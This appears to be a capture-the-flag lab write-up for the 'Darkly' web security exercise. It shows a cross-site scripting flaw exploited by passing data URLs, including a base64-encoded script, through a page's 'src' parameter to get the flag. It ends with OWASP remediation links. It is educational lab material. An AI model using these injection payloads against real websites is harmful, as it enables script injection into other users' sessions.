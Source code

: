 # Cross Site Scripting (XSS) - Data URLs

In the first section of the home page, an image redirect to [the location](http://192.168.56.101/?page=media&src=nsa) where an `object` tag specifies the URL of NSA logotype, via `data` attribute.

The value of `data` attribute change accordingly the value GET parameter `src` in the URL.

Using special format, called [Data URLs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics_of_HTTP/Data_URLs), in `src` allow to embed small inline data in HTML document.

<details>
<summary>Embed a text file</summary>

```
data:text/html,<h1 style="font-size:75px; background-color:red">Hello World!</h1>
```
<img width="1680" alt="image" src="https://user-images.githubusercontent.com/22397481/207857428-9feaa61f-fc22-4b38-9168-dcad62fd70fa.png">
</details>

<details>
<summary>Embed an image</summary>

```
data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAGQAAABkCAYAAABw4pVUAAAAo0lEQVR42u3RAQ0AAAjDMO5fNCCDkG4SmupdZwoQIAICRECACAgQAQECBIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACIiAABEQIAICRECACAgQIEAEBIiAABGQ7w2x48edS3GF7AAAAABJRU5ErkJggg==
```
<img width="1680" alt="image" src="https://user-images.githubusercontent.com/22397481/207856826-f0abe6b6-e29e-4c57-bf88-ef8dcb737ca0.png">
</details>

<details>
<summary>Embed a scipt</summary>

```
data:text/html,<script>alert('42 - The answer to life, the universe and everything')</script>
```
<img width="1680" alt="image" src="https://user-images.githubusercontent.com/22397481/207857154-5443b8d2-b45c-4fc0-a0e6-6b828ffcab8a.png">

</details>


Passing the script encoded in `base64` and using appropriate syntax `data:[<mediatype>][;base64],<data>` gives the flag
```sh
┌──$ [~/42/2022/darkly]
└─>  echo -n "<script>alert('42 - The answer to life, the universe and everything')</script>" | base64
PHNjcmlwdD5hbGVydCgnNDIgLSBUaGUgYW5zd2VyIHRvIGxpZmUsIHRoZSB1bml2ZXJzZSBhbmQgZXZlcnl0aGluZycpPC9zY3JpcHQ+
```
<img width="1680" alt="image" src="https://user-images.githubusercontent.com/22397481/207858953-5b451dce-3444-407a-8dd4-f92fdb4ff12e.png">

# Remediation
- https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- https://owasp.org/www-community/attacks/xss/
